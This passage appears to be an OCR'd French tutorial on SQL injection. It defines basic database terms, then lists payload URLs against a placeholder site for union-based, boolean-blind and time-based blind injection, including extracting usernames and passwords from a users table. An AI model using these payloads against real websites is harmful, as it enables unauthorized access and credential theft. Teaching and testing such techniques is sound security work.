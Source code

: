 ### 🛡️ **Définitions importantes :**

**📋 SQL (Structured Query Language) :** Langage pour interroger les bases de données
**🗄️ Base de données :** Endroit où l'application stocke ses informations (users, produits, etc.)
**📊 Table :** Comme un tableau Excel dans la base (ex: table "users")
**📋 Colonne :** Comme une colonne Excel (ex: "username", "password")
**🔗 UNION :** Commande SQL qui combine les résultats de plusieurs requêtes

## 🔍 Types d'Injection SQL

### 1. Union-Based SQL Injection
**Le plus commun et utile** - Permet d'extraire des données directement

```sql
-- Test basique
http://target.com/page.php?id=1'

-- Déterminer le nombre de colonnes
http://target.com/page.php?id=1' ORDER BY 1--
http://target.com/page.php?id=1' ORDER BY 2--
http://target.com/page.php?id=1' ORDER BY 3-- (erreur = 2 colonnes)

-- UNION injection pour extraire des données
http://target.com/page.php?id=1' UNION SELECT 1,2--
http://target.com/page.php?id=1' UNION SELECT username,password FROM users--
```

### 2. Boolean-Based Blind SQL Injection
**Quand on ne voit pas les résultats directement** - On devine par vrai/faux

```sql
-- Test si la base existe
http://target.com/page.php?id=1' AND 1=1-- (page normale)
http://target.com/page.php?id=1' AND 1=2-- (page différente)

-- Extraire des données caractère par caractère
http://target.com/page.php?id=1' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 1)='a'--
http://target.com/page.php?id=1' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 1)='b'--
```

### 3. Time-Based Blind SQL Injection
**Quand même boolean ne marche pas** - On utilise les délais

```sql
-- Test avec délai
http://target.com/page.php?id=1' AND SLEEP(5)--

-- Extraction de données avec délai conditionnel
http://target.com/page.php?id=1' AND IF((SELECT SUBSTRING(username,1,1) FROM users LIMIT 1)='a',SLEEP(5),0)--
```
